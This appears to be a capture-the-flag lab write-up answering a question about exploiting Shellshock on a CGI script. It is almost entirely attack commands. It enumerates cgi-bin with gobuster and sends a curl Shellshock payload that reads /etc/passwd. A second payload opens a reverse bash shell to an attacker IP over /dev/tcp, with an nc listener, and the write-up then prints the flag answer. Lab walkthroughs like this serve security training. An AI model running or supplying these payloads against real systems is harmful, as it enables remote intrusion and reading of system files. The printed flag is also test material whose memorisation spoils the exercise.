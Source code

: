 **Questions**

Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server.

<pre class="language-bash"><code class="lang-bash">gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
#/access.cgi           (Status: 200) [Size: 0]
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi
#it works
curl -H 'User-Agent: () { :; }; /bin/bash -i >&#x26; /dev/tcp/10.10.15.102/4444 0>&#x26;1' http://10.129.205.27/cgi-bin/access.cgi
nc -nvlp 4444
#got reverse shell
find / -name flag.txt 2>/dev/null
<strong>#/usr/lib/cgi-bin/flag.txt
</strong>cat /usr/lib/cgi-bin/flag.txt
#Sh3ll_Sh0cK_123
</code></pre>
